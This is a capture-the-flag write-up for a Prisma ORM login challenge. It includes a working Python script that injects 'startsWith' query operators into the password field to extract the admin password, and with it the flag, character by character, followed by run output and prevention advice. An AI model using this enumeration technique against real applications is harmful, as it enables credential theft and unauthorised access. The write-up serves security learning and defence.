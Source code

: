 ```yaml
---
title: "BlackHat MEA 2024 - Secure Portal Writeup"
date: "2024-11-28"
description: "Analyzing a critical vulnerability in Prisma ORM authentication, its exploitation using query operators, and best practices to secure web applications."
tags: ["web-security", "prisma", "injection", "hacking", "authentication"]
---
```


## Exploiting ORM Misuse: A Deep Dive into Prisma Injection

**Category**: Web  
**Points**: 100  
**Description**: No one can get into my secure portal

## Initial Analysis

When I first looked at the challenge, I noticed it was a web application with login functionality. The interesting part was that it used Prisma as its ORM (Object-Relational Mapping).

## Vulnerability Discovery

Looking at the source code, I found a critical vulnerability in the login route:

```javascript
const user = await prisma.user.findUnique({
  where: { email, password },
});
```

The vulnerability exists because:
1. The password field accepts object-based queries
2. The admin's password contains the flag (set from `process.env.FLAG`)
3. There's no proper password hashing
4. The login route misuses Prisma's `findUnique`

## Exploitation

I realized I could exploit this by using Prisma's query operators. Instead of sending a plain password string, I could send an object with operators like `startsWith` or `contains`. This allowed me to enumerate the flag character by character.

Here's the exploit script I developed:

```python
import requests
import string
from concurrent.futures import ThreadPoolExecutor

# Target URL
base_url = "http://a4c03f28d03ded48250f8.playat.flagyard.com"

def verify_partial_flag(test_flag):
    login_url = f"{base_url}/login"
    payload = {
        "email": "admin@admin.com",
        "password": {"startsWith": test_flag}
    }
    
    try:
        response = requests.post(login_url, json=payload)
        return response.status_code == 200
    except Exception as e:
        print(f"Error: {str(e)}")
        return False

def try_flag_chars():
    known_start = "BHFlagY{"
    chars = string.ascii_lowercase + string.digits + "}"
    
    print(f"Starting with known part: {known_start}")
    
    current_flag = known_start
    max_length = 50
    position = len(current_flag)
    
    with ThreadPoolExecutor(max_workers=5) as executor:
        while position < max_length and "}" not in current_flag:
            found_char = False
            test_flags = [(current_flag + char) for char in chars]
            results = list(executor.map(verify_partial_flag, test_flags))
            
            for char, is_valid in zip(chars, results):
                if is_valid:
                    current_flag += char
                    position += 1
                    print(f"\nConfirmed partial flag: {current_flag}")
                    found_char = True
                    break
            
            if not found_char:
                print(f"\nCouldn't find next character after: {current_flag}")
                break
    
    return current_flag

if __name__ == "__main__":
    print("Starting flag enumeration...")
    flag = try_flag_chars()
```

The script works by:
1. Starting with the known flag format `BHFlagY{`
2. Testing each possible next character using Prisma's `startsWith` operator
3. When a character is confirmed, it's added to the known part of the flag
4. The process continues until the closing brace is found

## Running the Exploit

When I ran the script, it successfully extracted the flag character by character:

```python
Starting flag enumeration...
Starting with known part: BHFlagY{
Confirmed partial flag: BHFlagY{b
Confirmed partial flag: BHFlagY{bb
Confirmed partial flag: BHFlagY{bba...
```

The script continued until it found the complete flag.

## Key Learnings

This challenge taught me several important lessons:
1. Always validate input types strictly
2. Don't use ORMs in ways they weren't designed for
3. Never store sensitive data (like flags) in password fields
4. Always implement proper password hashing
5. Be careful with database query operators in authentication logic

## Prevention

To prevent this vulnerability, the application should:
1. Use password hashing instead of storing plaintext passwords
2. Validate input types strictly (only accept strings for passwords)
3. Compare passwords after retrieving the user, not in the database query
4. Not store sensitive data in password fields
5. Use Prisma's `findUnique` correctly with only exact matches

## Conclusion

This was an interesting challenge that highlighted how misusing an ORM can lead to serious security vulnerabilities. The ability to inject query operators into what should be a simple string field allowed for complete enumeration of the admin's password, which contained the flag.

The flag format was: `BHFlagY{...}`.